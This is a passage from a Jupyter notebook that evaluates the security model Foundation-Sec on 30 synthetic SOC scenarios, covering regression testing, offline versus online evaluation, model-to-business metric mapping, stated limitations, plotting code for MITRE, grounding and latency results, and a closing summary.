**7. Which failures should be solved at the model layer?** Consistency and output-structure problems are fundamentally about the model's own behavior -- a different model, a different quantization, or fine-tuning (notebook 06) are the levers that actually address them.

**8. Which failures might instead require RAG, better data, schema validation, tools, guardrails, or workflow changes?** Missed evidence and incomplete next-step recommendations often reflect missing context the model was never given -- RAG (notebook 05) against the organization's actual policies and playbooks addresses that directly, not a bigger model. Invalid or missing-field JSON is a schema-validation-plus-retry problem, not a reasoning problem. Unsupported claims are best caught by a guardrail that checks entity claims against source evidence before a response ever reaches an analyst, the same idea as this section's automated grounding check, running in production instead of in a notebook.

## Section 15 -- Regression testing

This golden dataset can become exactly what notebook 04 first introduced: a regression suite, run every time the model, prompt, or any upstream component (retrieval, fine-tuning) changes.

```text
current production version
        vs
candidate model / prompt / RAG change
```

Compared on: correctness, grounding, hallucination rate, latency, and output reliability -- all eleven scorecard metrics, not just one.

**A candidate should not be promoted simply because one aggregate metric improves.** If MITRE recall rises 5% but the false-positive rate doubles, that is very likely a worse system for an analyst to trust, even though the single "recall went up" headline sounds like progress. A real promotion gate checks the whole scorecard, not the one number that happened to move in a good direction.

## Section 16 -- Offline vs. online evaluation

Everything in this notebook is **offline evaluation**: a controlled, repeatable golden dataset, useful specifically because it's checkable before anything ships. It cannot tell you how real analysts actually behave once the model is in front of them.

**Online evaluation** measures that instead: real workflows, whether analysts actually accept the model's suggestions, whether investigations reach completion faster, escalation rates, mean time to resolution (MTTR), real production latency and cost, and failure modes that only show up under real, messy traffic that a hand-authored golden dataset can never fully anticipate.

**Both are necessary.** Offline evaluation is what you can check before deployment and use as a repeatable gate; online evaluation is the only way to know whether the thing you shipped actually changed an analyst's day for the better. A model that aces every offline metric here could still fail to move MTTR at all if analysts don't trust or use its output -- which is exactly why Section 17 matters.

## Section 17 -- Model metrics vs. product metrics

| Model/component metric | Workflow metric | Business/customer metric |
|---|---|---|
| MITRE precision/recall | Investigation correctness | Analyst productivity / MTTR |
| Groundedness | Analyst trust in the tool's output | Product adoption |
| Latency | Workflow completion time | Analyst productivity |
| Output-validity rate | Automation reliability (fewer manual fallbacks) | Support/engineering cost to maintain the integration |
| Consistency | Predictability of the tool across shifts/analysts | Trust and standardization of process |

**This is the most important table in this notebook.** A model can improve on every metric in Section 13 while the end customer outcome stays exactly the same -- if analysts don't trust a more "accurate" model enough to act on it, or if a faster model still leaves the surrounding workflow as the bottleneck, the component-level win never reaches the business. Product teams evaluating a foundation model need to connect every component-level metric they track to the workflow metric it's supposed to move, and every workflow metric to the customer/business outcome it's supposed to serve -- an isolated model benchmark, however rigorous, answers a narrower question than "did this make the product better."

## Section 18 -- Limitations

- **Synthetic scenarios** -- all 30 are written for this notebook, not drawn from real incidents.
- **Only ~30 examples** -- enough to illustrate the evaluation dimensions, not enough for statistical confidence in any single number.
- **Limited security domains** -- 30 scenarios across 6 categories cannot cover the range of real SOC alert types.
- **Manually created ground truth** -- every `expected_*` field is one person's judgment call, not a reviewed, authoritative label set.
- **Quantized local model** -- Q4_K_M quantization trades some precision for memory footprint; results may differ on the full-precision model.
- **No statistical significance** -- with n=30 (or n=5, or n=15, depending on the section), none of the percentages above carry statistical confidence.
- **No human SOC expert panel** -- grounding, completeness, and next-step quality are scored by transparent heuristics here, not by an actual analyst's judgment.
- **No production traffic** -- this is entirely offline evaluation (Section 16); no real analyst ever saw these outputs.
- **No model comparison** -- this notebook evaluates Foundation-Sec alone, deliberately, as instructed.

## Section 19 -- Save results

The scorecard and failure-type plots were already saved in Sections 12-13. Three more below -- all five filenames are prefixed `07_` specifically so nothing here overwrites notebook 04's existing `results/security_eval_*.png` files.



In [17]:
# MITRE precision/recall/F1
fig, ax = plt.subplots(figsize=(6, 4))
metric_names = ["Precision", "Recall", "F1"]
metric_values = [micro_precision, micro_recall, micro_f1]
ax.bar(metric_names, metric_values, color="tab:blue")
ax.set_ylim(0, 1.05)
for i, v in enumerate(metric_values):
    ax.text(i, v + 0.02, f"{v:.2f}", ha="center")
ax.set_title("MITRE ATT&CK technique identification (micro-averaged)")
plt.tight_layout()
plt.savefig(RESULTS_DIR / "07_security_eval_mitre.png", dpi=150)
plt.show()



In [18]:
# Grounding score distribution
fig, ax = plt.subplots(figsize=(6, 4))
grounding_counts = Counter(r["grounding_score"] for r in results)
labels = ["0 (unsupported)", "1 (partial)", "2 (strongly grounded)"]
counts = [grounding_counts.get(0, 0), grounding_counts.get(1, 0), grounding_counts.get(2, 0)]
ax.bar(labels, counts, color=["tab:red", "tab:orange", "tab:green"])
ax.set_ylabel(f"Number of scenarios (out of {len(results)})")
ax.set_title(f"Evidence grounding score distribution (average: {avg_grounding:.2f}/2)")
plt.xticks(rotation=10)
plt.tight_layout()
plt.savefig(RESULTS_DIR / "07_security_eval_grounding.png", dpi=150)
plt.show()



Saved: 07_security_eval_scorecard.png, 07_security_eval_mitre.png, 07_security_eval_grounding.png,
       07_security_eval_failure_types.png, 07_security_eval_latency.png
(all prefixed 07_ -- notebook 04's existing results/security_eval_*.png files are untouched)


In [19]:
# Latency distribution
fig, ax = plt.subplots(figsize=(7, 4.5))
ax.hist(latencies, bins=12, color="tab:cyan", edgecolor="black")
ax.axvline(median_latency, color="tab:blue", linestyle="--", label=f"median = {median_latency:.2f}s")
ax.axvline(p95_latency, color="tab:red", linestyle="--", label=f"p95 = {p95_latency:.2f}s")
ax.set_xlabel("Latency (seconds)")
ax.set_ylabel("Number of scenarios")
ax.set_title("Per-scenario latency distribution (all 30 main-run calls)")
ax.legend()
plt.tight_layout()
plt.savefig(RESULTS_DIR / "07_security_eval_latency.png", dpi=150)
plt.show()

print("Saved: 07_security_eval_scorecard.png, 07_security_eval_mitre.png, 07_security_eval_grounding.png,")
print("       07_security_eval_failure_types.png, 07_security_eval_latency.png")
print("(all prefixed 07_ -- notebook 04's existing results/security_eval_*.png files are untouched)")

## Section 20 -- Final summary

**Model quality is not a single number. Production AI requires task-specific evaluation, explicit failure analysis, representative golden datasets, regression testing, and connection between component-level model metrics and end-to-end customer outcomes.**

This notebook measured Foundation-Sec along eight separate dimensions on 30 synthetic scenarios and found genuinely different pictures on each one -- a model that reliably produces valid structured output is not automatically one that grounds its claims in evidence; a model that classifies well is not automatically one that stays consistent across identical runs; a model that's accurate is not automatically fast enough for an interactive workflow. None of those facts would be visible from a single accuracy percentage. That is the entire argument of this notebook, and of notebook 04 before it: a production decision about a foundation model requires looking at all of these dimensions together, tracing the ones that matter back to an actual workflow outcome (Section 17), and building the regression discipline (Section 15) to keep watching them every time anything upstream changes -- not running one benchmark once and calling the question answered.